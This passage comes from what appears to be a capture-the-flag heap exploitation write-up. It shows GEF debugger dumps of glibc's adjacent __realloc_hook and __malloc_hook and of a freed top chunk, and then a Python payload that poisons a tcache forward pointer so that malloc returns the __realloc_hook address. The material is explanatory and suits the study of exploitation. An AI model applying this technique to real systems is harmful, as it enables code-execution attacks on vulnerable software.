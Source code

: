So if we successfully pop 6 register, those register will be changed! And we know that we can create chunk with index up to 25 so just simply malloc with the larger index, r12 and r15 will contain 0 after that 6 pop.

And there is one more thing to notice:

```
gef➤  p&__realloc_hook
$1 = (void *(**)(void *, size_t, const void *)) 0x7f5c37315b68 <__realloc_hook>

gef➤  x/xg 0x7f5c37315b68
0x7f5c37315b68 <__realloc_hook>:  0x00007f5c371c7bf0

gef➤  x/xg 0x7f5c37315b68 + 0x8
0x7f5c37315b70 <__malloc_hook>: 0x0000000000000000

gef➤  x/2xg 0x7f5c37315b68
0x7f5c37315b68 <__realloc_hook>:  0x00007f5c371c7bf0  0x0000000000000000
                                  (__realloc_hook)     (__malloc_hook)
```

That means `__realloc_hook` and `__malloc_hook` is next to each other. So we can overwrite 2 of them at the same time easily. So that’s the idea. Now we start our final stage!

At the stage 2, we have chunk index 2 has size of 0xcf0, next to chunk 2 is the freed top chunk contain the forward pointer and backward pointer due to tcache link list:

```
gef➤  x/10xg 0x0000557c12fe4020 - 0x10
0x557c12fe4010: 0x0000000000000000  0x0000000000000cf1    <-- Chunk index 2
0x557c12fe4020: 0x0000000000000000  0x0000000000000000
0x557c12fe4030: 0x0000000000000000  0x0000000000000000
0x557c12fe4040: 0x0000000000000000  0x0000000000000000
0x557c12fe4050: 0x0000000000000000  0x0000000000000000

gef➤  x/10xg 0x0000557c12fe4020 - 0x10 + 0xcf0
0x557c12fe4d00: 0x0000000000000000  0x00000000000002e1    <-- Second freed top chunk
0x557c12fe4d10: 0x0000557c12fc2d10  0x0000557c12fa0010
0x557c12fe4d20: 0x0000000000000000  0x0000000000000000
0x557c12fe4d30: 0x0000000000000000  0x0000000000000000
0x557c12fe4d40: 0x0000000000000000  0x0000000000000000
```

Notice that the freed top chunk size changed to `0x2e1`. So now we overwrite forward pointer with `__realloc_hook`, just keep the same size as `0x2e0` to make sure there’s no error (address changed):

```python
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8    # Prevsize
payload += p64(0x2e1)
payload += p64(libc.sym['__realloc_hook'])
gets(2, payload)
```

And then we just malloc 2 chunk with the same size `0x2e0`, we will get the second chunk is `__realloc_hook` address:
